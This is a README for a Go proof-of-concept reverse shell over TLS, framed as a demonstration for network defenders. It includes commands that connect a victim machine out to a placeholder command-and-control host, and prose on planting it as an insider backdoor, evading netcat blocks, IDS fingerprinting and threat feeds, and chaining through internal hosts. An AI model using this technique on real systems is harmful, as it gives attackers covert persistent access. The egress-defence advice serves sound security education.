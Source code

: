 # A Simple Reverse Shell Framework over TLS
This is a PoC reverse shell written in Go. 

Purely for educational purposes. Use responsibly.

# Usage
Start command and control server (e.g. replace -linux with -darwin if your server is a macOS one) and select a port of your choosing (port 7788 is used below)
```bash
server-linux 7788
```

Now connect from the target/victim system, specifying the hostname (_command-and-control-server_) of the C&C server, and port that the server is listening on (7788 in our example)
```bash
client-linux command-and-control-server-hostname 7788
```


# Why?
Many network system defenders may not realise the risk associated with arbitrary outbound connection from protected systems. They may still be under the illusion that locking down and blocking inbound connections may be sufficient to protect critical systems.

The purpose is to help point out unsafe assumptions with a simple demo

## You need VPN, 2FA, etc in order to get on my network
This tool completely bypasses your protection, all it needs is an insider willing to plant a tool such as this as a backdoor to give them persistent access which circumvents all your VPN and 2FA technologies.  

Think of that sysadmin that is about to be fired. A disgruntled employee or other malicious insiders could build a similar tool to grant themselves 

## I will block netcat/nc installation on my systems
Netcat is a very versatile and useful tool, which has very legitimate applications. However, it is also a traditional tool of choice for obtaining reverse shells. So, it may seem reasonable that blocking/blacklisting it may reduce the risk significantly.

Well, this PoC is not netcat and does not require it. In fact it is a simple plain old Go program. It is so simple as to not require any external library: it is a pure Go implementation, using only built-in primitives. Note that it is not very difficult to evade fingerprint-based scanning technologies

## I will install a network intrusion detection and fingerprint the traffic from this tool
Well, that's a good idea. A network intrusion detection system can do many things and can be used to detect attacks like this, for example, because netcat is done over plain TCP connection, it is possible to inspect packets and fingerprint data exfiltration and similar bad behaviour. 

The problem is that, unlike many similar approaches, this tool works over TLS, so good luck with that.

## I will use threat feeds to fingerprint all your command and control servers as well as certificates that may be used for TLS
Good thinking, but this will not be a reliable or efficient method for detection. This is because the tool can be configured to communicate with any server of the attacker's choosing, so they can spin up a server anywhere in the world and install arbitrary certificates on it, and you are left chasing shadows 

## What then is a reliable way to defend against this threat?
Many of the ideas suggested above, while not foolproof are part of a reasonable defense-in-depth strategy for mitigating this threat.

The key message is to *understand your network*! If you know precisely which remote servers and ports that they are allowed to communicate with, that is a great piece of information that can be used to reduce the threat. For example, you may whitelist precisely those remote servers and ports as the only outbound connections you wish to allow. 

This does not entirely prevent the attack if it is possible that the attacker may have control of any of your whitelisted servers/ports. 

Where outbound Internet connection is necessary, *consider network anomaly detection* to help you _possibly_ detect unusual connections that may be an indicator of compromise.

Even, if you totally blocked outbound Internet access, it is not a guaranteed solution. This is because if the protected server is allowed to make outbound connections directly or indirectly to another internal system that in turn has the capability to make outbound Internet connection, this tool can be chained together starting from your sensitive system, and trampolining via other internal systems to ultimately reach one that could communicate directly outbound to the Internet.


# Warning and Disclaimers
This tool is only provided for educational purposes. Do not use it to attack systems. The author assumes no liability or responsibility for anything you do with it or that it does to any system you use it on. See LICENSE for further detail.

## A demo should still use secure communications
This tool is intended to highlight a threat to protected systems and to demonstrate the difficulty in effectively defending against the threat.

It is a very simple program that could be used to demonstrate the importance of monitoring outbound connections from your protected environment for the existence of maliciously planted backdoors. 

However, it is important to do that over TLS too as you'd not like third parties to sniff or inject themselves into your demo. 

CAUTION: Please note that the TLS to the target mitigates casual sniffing and injection risks, however it does not entirely eliminate man-in-the-middle attacks because the client does not verify end certificates. Consider certificate pinning or similar approaches if you'd like to use this technique on a more permanent basis or for other legitimate/useful remote shell designs!
